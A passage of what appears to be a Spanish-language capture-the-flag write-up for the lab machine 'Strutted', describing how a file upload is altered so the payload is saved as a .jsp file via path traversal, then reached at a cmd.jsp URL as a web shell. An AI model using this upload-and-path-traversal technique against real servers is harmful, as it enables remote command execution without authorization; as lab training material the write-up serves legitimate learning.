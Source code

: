 Despues añadir la cabecera del `payload` para que el archivo se deposite como `.jsp` y realizando un `path Traversal` para que este al principio de la pagina y podamos acceder.

> Response:

```
..............................<RESTO DE PETICION>..................................
   <div class="content-wrapper">
        <div class="hero-section">
            <div class="container">
                <h1>Image Upload Successful!</h1>
                <p>Congratulations! Your image has been securely uploaded and is now accessible via a shareable link.</p>
            </div>
        </div>
..............................<RESTO DE PETICION>..................................
```

Si vemos esta respuesta del servidor es que ha funcionado de forma correcta, por lo que si accedemos de esta forma:

```
URL = http://strutted.htb/cmd.jsp
```

Info:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-10-03 113547.png" alt=""><figcaption></figcaption></figure>
